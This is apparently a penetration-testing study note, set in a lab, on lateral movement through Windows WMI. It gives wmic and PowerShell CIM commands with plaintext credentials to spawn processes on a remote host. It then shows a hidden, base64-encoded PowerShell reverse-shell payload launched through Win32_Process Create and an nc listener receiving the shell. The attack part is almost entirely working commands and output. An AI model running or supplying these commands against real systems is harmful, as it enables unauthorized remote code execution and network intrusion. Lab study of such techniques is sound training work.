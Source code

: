 # WMI

## WMI

WMI is capable of creating processes via the _Create_ method from the _Win32\_Process_ class. It communicates through [_Remote Procedure Calls_](https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page) (RPC) over port 135 for remote access and uses a higher-range port (19152-65535) for session data.

### Prerequisities

* Credentials of a member of the _Administrators_ local group
* Avoid UAC Remote Restrictions for non-domain joined machine (OK for us if user is a domain user)

### Using wmic

```
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"

Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 752;
        ReturnValue = 0;
};
```

752 -> PID

0 -> Creation of "calc" process is successfull

### Same WMI leverage using Powershell&#x20;

```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
$username = 'jen';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

### Using Reverse Shell

1. Generate powershell payload using reverse shelle generator ($command variable in the following)
2. Send the payload

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

```

3. Get reverse shell

```
nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 49855

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> hostname
FILES04
```

